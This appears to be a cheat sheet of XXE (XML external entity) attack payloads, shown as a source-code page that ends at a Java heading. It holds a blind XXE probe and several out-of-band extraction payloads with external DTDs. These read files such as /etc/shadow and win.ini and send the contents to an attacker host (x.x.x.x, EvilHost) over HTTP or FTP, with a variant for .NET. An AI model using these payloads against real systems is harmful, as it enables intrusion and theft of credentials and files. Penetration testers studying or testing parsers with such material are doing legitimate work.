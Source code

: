 ```xml
--------------------------------------------------------------
Vanilla, used to verify outbound xxe or blind xxe
--------------------------------------------------------------
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "http://x.x.x.x:443/test.txt">
]>
<r>&sp;</r>

---------------------------------------------------------------
OoB extraction
---------------------------------------------------------------
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

## External dtd: ##

<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">

----------------------------------------------------------------
OoB variation of above (seems to work better against .NET)
----------------------------------------------------------------
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
%exfil;
]>

## External dtd: ##

<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">

---------------------------------------------------------------
OoB extraction
---------------------------------------------------------------
<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/shadow">
<!ENTITY % sp SYSTEM "http://EvilHost:port/sp.dtd">
%sp;
%param3;
%exfil;
]>

## External dtd: ##
<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'ftp://Evilhost:port/%data3;'>">

-----------------------------------------------------------------------
OoB extra ERROR -- Java
-----------------------------------------------------------------------
<?xml version="1.0"?>
```